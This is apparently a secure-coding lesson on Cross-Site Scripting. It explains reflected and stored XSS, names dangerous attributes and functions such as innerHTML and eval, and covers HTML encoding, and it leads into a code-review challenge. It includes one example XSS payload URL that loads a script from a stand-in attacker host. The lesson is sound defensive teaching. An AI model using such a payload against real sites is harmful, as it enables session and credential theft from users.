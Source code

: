 JavaScript’s biggest foe is Cross-Site Scripting (abbreviated XSS). This type of attack occurs when a web page accepts input containing JavaScript from an untrusted source and renders it in the context of the page. It’s a form of code injection.

The target is the user identity. The server relies on authentication tokens and credentials to identify the user. The malicious script will extract this information from the browser and send it to a site the attacker controls (hence the name Cross-Site Scripting). The script makes it into the page via a specially crafted URL sent to the user (reflected XSS ) or by saving it into the site as an article or message (stored XSS).

Example URL with XSS payload:
    
    https://site.com/search.jsp?q='"/><script src="https://evil.bad/xss.js"></script>

#####Code Defenses Against Cross-Site Scripting

To prevent the attack the application must **neutralize the user input**. This means that the input will be inserted in the page without being rendered or executed. Most modern JavaScript frameworks such as **Angular** or **React** do this implicitly. 

In the Angular example below the `fullName` parameter is embeded in the link innerText, a safe context.

    <a class="nav-link"><span class="oi oi-account-logout"> Logout {{fullName}} </a>

However, sometimes you must extend the JavaScript framework by designing your own UI elements. When doing this you must keep in mind that the following page contexts are dangerous since they will execute input as JavaScript.

Dangerous HTML element attributes:

- innerHTML
- src
- onLoad, onClick, etc…

Dangerous functions:

- eval
- setTimeout
- setInterval

In the case of legacy web applications server side rendered code (JSP, PHP, ASPX) co-exists with modern pages and maintenance of the server side code may introduce new Cross-Site Scripting issues, if user input is not neutralized. In those cases HTML Encoding functions have to be called to turn hazardous HTML markup into safe strings.

`<` becomes `&lt;`

`>` becomes `&gt;`

`"` becomes `&quot;`

In this challenge you will take a look at a few samples to understand how to spot Cross-Site Scripting during code review. Select the code that prevents the vulnerability.


